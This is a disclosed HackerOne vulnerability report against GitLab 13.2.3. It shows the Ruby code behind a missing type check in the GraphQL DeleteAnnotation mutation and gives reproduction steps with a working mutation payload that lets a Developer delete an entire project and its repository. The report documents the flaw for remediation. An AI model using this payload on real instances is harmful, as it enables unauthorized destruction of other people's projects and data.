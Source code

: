 # Insufficient Type Check leading to Developer ability to delete Project, Repository, Group, ...

## Report Details
- **Report ID**: 960244
- **URL**: https://hackerone.com/reports/960244
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-17T07:28:36.178Z
- **Disclosed**: 2020-11-02T16:12:02.665Z

## Reporter
- **Username**: ledz1996
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

Similar bug to #858671, but this time with annotations mutation: `DeleteAnnotation`

in ***app/graphql/mutations/metrics/dashboard/annotations/base.rb***

```ruby
module Mutations
  module Metrics
    module Dashboard
      module Annotations
        class Base < BaseMutation
          private

          # This method is defined here in order to be used by `authorized_find!` in the subclasses.
          def find_object(id:)
            GitlabSchema.object_from_id(id)
          end
        end
      end
    end
  end
end

```

There is no type check for `find_object` in ***app/graphql/mutations/metrics/dashboard/annotations/delete.rb***
```ruby
    annotation = authorized_find!(id: id)

            result = ::Metrics::Dashboard::Annotations::DeleteService.new(context[:current_user], annotation).execute
```

And luckily, Developer is sufficient for the permission check 

***app/services/metrics/dashboard/annotations/delete_service.rb***
```ruby
Ability.allowed?(user, :delete_metrics_dashboard_annotation, annotation)
```

### Steps to reproduce

1. For User A, Create project A Private adding User B as Developer
2. For User B, execute the following mutation in `http://gitlab.example.vm/-/graphql-explorer`

```graphql
mutation {
  deleteAnnotation(input: {id: "gid://Gitlab/Project/<project-id>"}) {
    clientMutationId
  }
}
```
3. Project disappear along with Repository

███████

#### Results of GitLab environment info

```
System information
System:     
Proxy:      no
Current User:   git
Using RVM:  no
Ruby Version:   2.6.6p146
Gem Version:    2.7.10
Bundler Version:1.17.3
Rake Version:   12.3.3
Redis Version:  5.0.9
Git Version:    2.27.0
Sidekiq Version:5.2.9
Go Version: unknown

GitLab information
Version:    13.2.3-ee
Revision:   640e2695514
Directory:  /opt/gitlab/embedded/service/gitlab-rails
DB Adapter: PostgreSQL
DB Version: 11.7
URL:        http://gitlab.example.vm
HTTP Clone URL: http://gitlab.example.vm/some-group/some-project.git
SSH Clone URL:  git@gitlab.example.vm:some-group/some-project.git
Elasticsearch:  no
Geo:        no
Using LDAP: no
Using Omniauth: yes
Omniauth Providers: 

GitLab Shell
Version:    13.3.0
Repository storage paths:
- default:  /var/opt/gitlab/git-data/repositories
GitLab Shell path:      /opt/gitlab/embedded/service/gitlab-shell
Git:        /opt/gitlab/embedded/bin/git
```

## Impact

Unauthorized deleting of repository/project by maintainers, developers

## Attachments
No attachments
